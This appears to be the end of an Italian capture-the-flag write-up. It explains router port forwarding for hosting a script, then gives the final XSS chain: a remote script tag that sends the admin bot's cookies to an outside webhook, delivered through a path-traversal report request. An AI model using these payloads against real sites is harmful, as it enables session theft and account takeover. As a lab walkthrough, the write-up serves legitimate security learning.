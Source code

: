 Mama mia Luigi!!!!! XDDDDDDDDDDDDDDDDDDDDD

Come protocollo è importante selezionare TCP/UDP o simili se disponibili, altrimenti sarà meglio creare una port forwarding table per ogni protocollo.

La porta WAN è la porta che sarà raggiungibile dall'esterno, mentre la porta LAN è la porta che riceverà i [pacchetti](https://en.wikipedia.org/wiki/Network_packet) dall'esterno. Per capirci, quella che è stata scelta quando è stato uppato il server HTTP in Python. Per evitare errori, consiglierei di usare la stessa porta LAN e WAN (interna e esterna) quando possibile.

L'IP destinazione è l'IP locale del dispositivo utilizzato, ovvero quello che io ho ricavato con `ifconfig`, `ipconfig` in Windows.

In questo modo, quando il router riceverà una richiesta sulla porta WAN selezionata, il pacchetto verrà reindirizzato all'IP locale e la porta che è stata inserita nella tabella di port forwarding. 

Per provare che tutto sia stato fatto correttamente, basta visitare `[IP pubblico router]:[porta WAN]` da un dispositivo qualsiasi, ancora meglio se non collegato alla stessa rete locale del server sul quale si trova l'exploit (ad esempio un telefono con la connessione dati).

### Final payload
Let's do this.

Ricapitolando: 

- Il payload finalizzato per includere il codice JavaScript remoto è `<script src="//[IP]:[PORT]/x.js"></script>`.
- Il codice presente su x.js è `window.location = "https://webhook.site/[REDACTED]?c=" + document.cookie;`.
- Non rimane altro che mandare al bot un report di questo tipo:

![Payload finale in Burp](./media/img/FinalBurp.png)

`id=1/../../search%3flol%3d"/admin"%26q%3d<script%2bsrc%253d"http%253a//10.10.201.233%253a1337/x.js"></script>&message=/admin`, che si URL-decoda in `id=1/../../search?lol="/admin"&q=<script src="http://10.10.201.233:1337/x.js"></script>&message=/admin`

Chiunque sia riuscito nell'impresa di arrivare a leggere fino a qui, grazie di cuore ❤️

Per qualsiasi feedback, mi potete contattare su Discord: `titto_caru`

![Letteralmente io](https://i.pinimg.com/474x/ca/fa/f8/cafaf8eedcafcfc74fd571d4763e96c7.jpg)